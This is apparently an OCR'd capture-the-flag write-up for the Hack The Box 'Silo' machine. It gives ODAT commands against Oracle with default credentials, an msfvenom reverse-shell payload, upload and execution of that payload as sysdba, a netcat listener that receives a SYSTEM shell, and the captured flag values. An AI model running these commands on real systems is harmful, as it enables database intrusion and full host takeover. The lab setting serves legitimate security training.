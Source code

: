   Write files:
    ./odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "C:/test" token.txt token.txt

  Read files:
    ./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --getFile "C:/test" "my4.txt" "my"

  Execute code via External Tables:
    ./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

  Create a payload, and upload it.

  [root:/git/htb/silo]# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4488 -f exe -o silo-rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: silo-rev.exe

  [root:/opt/odat]# python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --putFile C:/ silo-rev.exe /git/htb/silo/silo-rev.exe
    [1] (10.10.10.82:1521): Put the /git/htb/silo/silo-rev.exe local file in the C:/ folder like silo-rev.exe on the 10.10.10.82 server
    [-] Impossible to put the /git/htb/silo/silo-rev.exe file: `ORA-01031: insufficient privileges`

  Our privileges are to low. This error can be avoided by signing on "as sysdba", luckily there is a --sysdba flag in odat.

  [root:/opt/odat]# python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --sysdba --putFile C:/ silo-rev.exe /git/htb/silo/silo-rev.exe
    [1] (10.10.10.82:1521): Put the /git/htb/silo/silo-rev.exe local file in the C:/ folder like silo-rev.exe on the 10.10.10.82 server
    [+] The /git/htb/silo/silo-rev.exe file was created on the C:/ directory on the 10.10.10.82 server like the silo-rev.exe file

  [root:/opt/odat]# python3 odat.py externaltable -s 10.10.10.82 -U scott -P tiger -d XE --sysdba --exec c:/ silo-rev.exe
    [1] (10.10.10.82:1521): Execute the silo-rev.exe command stored in the c:/ path

  [root:/git/htb/silo]# rlwrap nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.82] 49163
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE> whoami
      nt authority\system

    C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE> cd C:\Users
    C:\Users> type Phineas\Desktop\user.txt
      92ede778a1cc8d27cb6623055c331617
    C:\Users> type Administrator\Desktop\root.txt
      cd39ea0af657a495e33bc59c7836faf6
